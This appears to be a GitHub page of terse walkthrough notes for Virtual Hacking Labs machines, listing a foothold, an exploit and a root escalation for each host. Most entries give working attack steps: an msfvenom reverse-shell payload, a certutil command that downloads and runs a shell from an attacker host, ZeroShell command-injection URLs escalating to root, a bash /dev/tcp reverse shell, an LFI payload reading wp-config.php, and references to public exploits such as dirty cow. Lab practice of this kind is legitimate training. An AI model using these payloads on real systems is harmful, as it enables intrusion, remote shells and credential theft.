 ## Virtual Hacking Labs

- [Beginner](#beginner)
- [Advance](#advance)

### Beginner
#### 10.11.1.36 (Steven)
```bash
Foothold -> Found Wing FTP Server and Login with admin:admin  
Exploit -> RCE

msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4444 -f exe > shell-x86.exe

os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://172.16.1.1:8080/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')

Escalate -> Don't need
```
#### 10.11.1.48 (Android)
```bash
Foothold -> Found Port 5555 (adb)
Exploit -> Connect with ADB Tool

./adb connect 10.11.1.48:5555
./adb shell

Escalate -> Just su to root
```
#### 10.11.1.60 (Zero)
```bash
Foothold -> Found ZeroShell

Exploit -> RCE
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'

Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux

Escalate -> sudo by tar
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root) uid=0(root) gid=0(root) groups=0(root) 
```
Reference  
 -> https://www.exploit-db.com/exploits/49096  
 -> https://www.tarlogic.com/advisories/zeroshell-rce-root.txt

#### 10.11.1.74 (Mantis)
```bash
Foothold -> Read robots.txt and Found http://10.11.1.74/mantisbt-2.3.0
Exploit1 -> Try to Use RCE (Unauthenticated) it's work but it's a rabbit hole.
Exploit2 -> Use Reset Administrator Password to Exploit
User -> Investigate The Page and Found SSH credential and Use it.
Root -> sudo -l and Found "(ALL : ALL) ALL" Then sudo su
```

#### 10.11.1.83 (John)
```bash
Foothold -> Found Target is Windows XP and Open 445
Exploit -> MS08-067 and MS17-010
```

#### 10.11.1.95 (James)
```bash
Foothold -> Found Apache James Server 2.3.2
Exploit -> Use Public Exploit from https://www.exploit-db.com/exploits/50347

sudo -l
(root) NOPASSWD: /sbin/reboot

Found Can Edit /etc/init.d/james

Escalate -> Edit /etc/init.d/james

---/etc/init.d/james---
#!/bin/bash
sudo JAVA_HOME=/usr/lib/jvm/default-java /home/james/shell.sh
-----------------------

Escalate -> Create shell.sh
---shell.sh---
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.1.2/80 0>&1
--------------

Escalate -> sudo /sbin/reboot
```

#### 10.11.1.109 (AS45)
```bash
Foothold -> Found Apache Struts 2
Exploit -> Public RCE 

https://www.exploit-db.com/exploits/41570
python 41570.py http://10.11.1.109:8080/struts2-rest-showcase/orders/6 whoami
```

#### 10.11.1.113 (Anthony)
```bash
Foothold -> Found Port 80 and It is gitstack
Exploit -> Public RCE
https://www.exploit-db.com/exploits/43777
```

#### 10.11.1.124 (Breeze)
```bash
Foothold -> Found Port 80 and It is Sync Breeze Enterprise v8.9.24
Exploit -> Public RCE
https://zerontek.blogspot.com/2020/09/hacking-wakthrough-sync-breeze.html?fbclid=IwAR30vTktd0Rt_aEAkAEwCtCiODRz4i0Le_ifftmDPQ0ZV0m44kznlvR2O2o
```

#### 10.11.1.177 (CMS01)
```bash
Foothold -> Found Joomla v 3.6.3

Use Joomraa.py
https://github.com/XiphosResearch/exploits/tree/master/Joomraa
Login and read administrator password

Exploit -> Login with Admin Credential then upload shell.php
Escalate -> read /var/www/html/configuration.php and found root password
```

### Advance

#### 10.11.1.2 (Lucky)
```bash
Foothold -> Found SMB was Open
Exploit -> Upload PHP shell via SMB
Escalate -> Use dirty cow
https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2
```

#### 10.11.1.2 (Techblog)
```bash
Foothold -> Found Website use Wordpress and found Wordpress Site Import 1.0.1 Then LFI to read wp-config.php
https://10.11.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../wp-config.php
Exploit -> Edit Page in wp-admin (PHP Shell)
Escalate -> Use dirty cow
https://www.exploit-db.com/exploits/40616
```